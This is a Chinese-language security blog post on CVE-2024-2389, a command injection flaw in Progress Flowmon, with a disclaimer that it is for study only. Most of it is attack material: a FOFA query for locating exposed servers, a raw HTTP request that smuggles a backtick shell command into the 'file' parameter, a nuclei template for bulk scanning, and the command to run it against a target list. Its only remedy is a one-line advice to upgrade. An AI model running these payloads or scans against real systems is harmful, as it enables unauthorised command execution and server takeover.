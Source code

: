 #  CVE-2024-2389   
原创 fgz  AI与网安   2024-04-17 07:10  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Progress Flowmon   
命令注入  
漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Progress Flowmon 11.X 12.x版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOJXGbmg2VibZEQJtRafbUv04dREaR19p8I4Vg2Qa1A0xjaicTykrpTKyP7d7Os0H12q0rt0L76oIbw/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Progress Flowmon 是一个网络性能监控工具平台。2024年4月互联网上披露其存在前台命令注入漏洞，攻击者可利用该漏洞执行任意命令，控制服务器。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="Flowmon-Web-Interface"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOJXGbmg2VibZEQJtRafbUv0j6HTCW2lZKZTxlKicWpIPvMf26afj22k6kY9UXTbp3DyfG1SlzuAhicA/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，其中  
ping+  
dnslog地址需要修改成自己dnslog地址  
```
GET /service.pdfs/confluence?lang=en&file=`ping+dnslog地址` HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOJXGbmg2VibZEQJtRafbUv0ve5eUVyicAiaD8AbKPuh49rafCLeZBJIRX3jibJrEj4Fr5sJiaIjYX9HZg/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-2389
info:
  name: Progress Flowmon 命令注入漏洞
  author: fgz
  severity: high
  description: |
    Progress Flowmon 是一个网络性能监控工具平台。2024年4月互联网上披露其存在前台命令注入漏洞，攻击者可利用该漏洞执行任意命令，控制服务器。
  reference:
    - https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability
  metadata:
    verified: true
    fofa-query: body="Flowmon-Web-Interface"
  tags: cve,cve2024,rce

http:
  - method: GET
    path:
      - "{{BaseURL}}/service.pdfs/confluence?lang=en&file=`ping+{{interactsh-url}}`"

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-2389.yaml -l data\1.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOJXGbmg2VibZEQJtRafbUv0JjmM5iaNcGib9mXTd78AG538xW6V79KysvohsgY5I6GpCs3uI2p2uApw/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
